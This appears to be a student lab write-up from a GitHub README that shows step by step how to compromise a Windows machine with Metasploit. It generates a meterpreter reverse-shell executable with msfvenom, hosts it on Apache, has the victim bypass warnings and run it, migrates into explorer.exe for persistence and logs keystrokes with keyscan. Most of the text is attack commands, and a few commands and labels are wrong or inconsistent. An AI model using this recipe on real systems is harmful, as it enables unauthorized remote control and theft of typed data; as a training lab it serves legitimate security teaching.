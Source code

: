 
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![if-config](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d81c29e7-4cb2-4989-a4f0-32d0f4dcffa5)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![msfvenom](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a8e477e7-1f5b-4831-a003-ffc199679313)

copy the fun.exe into the apache /var/www/html folder

![cpfunexe](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/edc15bf9-0646-4d77-a7b2-7fbe6adae449)

Start apache server
sudo systemctl apache2 start

![startapache2](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/f2bdb40b-22b8-409e-8295-7cac780eab89)

Check the status of apache2

![status](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d5dca89e-d102-408d-aa25-d60e7e09ff2b)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![usemultihandler](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/31c4d664-f12a-45a9-aa29-e988f03e88e1)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)






## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

